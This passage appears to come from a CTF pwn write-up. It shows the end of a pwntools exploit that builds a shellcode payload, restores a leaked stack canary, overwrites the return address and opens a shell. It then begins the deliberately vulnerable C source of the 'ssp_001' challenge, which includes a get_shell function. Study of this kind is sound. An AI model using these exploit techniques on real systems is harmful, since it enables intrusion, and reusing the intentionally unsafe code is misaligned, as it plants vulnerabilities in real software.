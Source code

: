 ```
#gdb.attach(p)
#input()
payload = asm(shellcode)
payload = payload.ljust(88,b'a')
payload += p64(canary)
payload += p64(0)
payload += p64(buf)
p.sendlineafter("Input: ",payload)
p.interactive()
```

![image](https://hackmd.io/_uploads/HyuN-roQJl.png)


------------


5 . ssp_001
---------


source :

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
```